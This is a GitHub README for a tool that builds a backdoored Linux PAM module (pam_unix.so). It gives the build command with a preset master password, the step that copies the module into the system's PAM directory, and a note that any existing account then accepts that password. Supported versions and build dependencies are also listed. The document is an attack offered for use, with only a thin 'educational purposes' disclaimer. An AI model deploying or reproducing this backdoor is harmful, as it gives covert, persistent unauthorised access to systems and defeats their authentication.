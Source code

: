 Modified from: https://github.com/zephrax/linux-pam-backdoor

# linux-pam-backdoor         
Linux PAM Backdoor           
                             
This script automates the creation of a backdoor for Linux-PAM (Pluggable Authentication Modules)

## Usage
To generate the backdoored pam_unix.so, just run:
```
./backdoor.sh -v 1.3.0 -p som3_s3cr4t_p455w0rd
```

You have to identify the PAM version installed on the system, to make sure the script will compile the right version. Otherwise you can break the whole system authentication.

After the execution of the script, the last step is to copy the generated pam_unix.so to the pam modules dir on the host. 

```
cp pam_unix.so /usr/lib/security/
```

That's all. 

After that, you can log-in to the system using an existing user, and the previously configured password.

Use this for educational purposes only.
I am not responsible for the damage you might cause.

## Dependencies 

Tested with ubuntu 20.04: 
* 1.1.8 and older: failed to compile
* 1.2.0: worked
* 1.3.0 to 1.4.0: worked

The following packages where used
```bash
apt install -y  autoconf automake autopoint bison bzip2 docbook-xml docbook-xsl flex gettext libaudit-dev libcrack2-dev libdb-dev libfl-dev libselinux1-dev libtool libcrypt-dev libxml2-utils make pkg-config sed w3m xsltproc xz-utils gcc
```
